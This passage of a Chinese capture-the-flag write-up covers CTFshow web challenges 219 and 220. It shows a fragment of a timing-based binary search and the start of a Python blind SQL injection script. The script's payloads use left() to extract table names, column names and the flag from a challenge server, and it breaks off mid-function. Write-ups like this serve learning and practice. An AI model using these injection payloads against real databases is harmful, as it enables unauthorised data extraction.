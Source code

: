 ```python
        sub = end_time - start_time
        if sub >= 1:
            max = j
        else:
            min = j
```

很难，但还是出来了。跑这个不要挂魔法，容易延迟容易误报  

## web 219 rlike

过滤了rlike

在[【大佬博客】](https://www.cdxy.me/?p=789)里有用`rlike`

![219](/medias/show-sql/219.png)


这题还是用上题脚本跑了

## web 220

参考：[【Practice - CTFSHOW WEB入门 SQL注入篇】](https://hextuff.dev/2021/07/29/ctfshow-web-getting-started-sql-injection/#web220)

过滤了`substr`，还可以使用`right,left, mid`

励志要自己写脚本🤐

```python
import string
import time
import requests

url = "http://bbdb689b-386c-435c-ae43-e707b9f65a76.challenge.ctf.show:8080/api/"
# 表名 ctfshow_flagxcac
# payload = "left((select table_name from information_schema.tables where table_schema=database() limit 0,1),{})='{}'"
# 列名 flagaabcc
# payload = "left((select column_name from information_schema.columns where table_name='ctfshow_flagxcac' limit 1,1),{})='{}'"
# flag
payload = "left((select flagaabcc from ctfshow_flagxcac limit 0,1),{})='{}'"


def valid_payload(p: str) -> bool:
    data = {
        "debug": 0,
```